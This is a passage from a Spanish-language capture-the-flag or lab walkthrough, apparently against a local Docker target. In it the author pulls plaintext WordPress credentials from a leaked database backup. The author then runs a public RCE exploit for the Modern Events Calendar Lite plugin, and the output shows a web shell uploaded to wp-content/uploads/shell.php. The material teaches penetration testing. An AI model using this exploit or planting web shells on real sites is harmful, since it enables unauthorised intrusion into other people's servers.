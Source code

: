 Nos lo descargamos y lo descomprimimos:

```shell
unzip databaseback2may.zip
```

Y veremos el siguiente archivo:

```
cat 29DBMay
```

Info:

```
| Username  |         Password        |
|-----------|-------------------------|
| developer | 2wmy3KrGDRD%RsA7Ty5n71L^|
|-----------|-------------------------|
```

Por lo que vemos ya tendremos las credenciales, por lo que con el `exploit` que encontramos anteriromente lo utilizaremos de la siguiente forma:

```shell
python3 exploit.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Info:

```
/home/kali/Desktop/whoami/exploit.py:23: SyntaxWarning: invalid escape sequence '\ '
  banner = """

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme
                    




[+] Authentication successfull !

[+] Shell Uploaded to: http://172.18.0.2:80//wp-content/uploads/shell.php
```

Y vemos que nos creo un `shell.php` en la siguiente ruta.

```
URL = http://<IP>/wp-content/uploads/shell.php
```
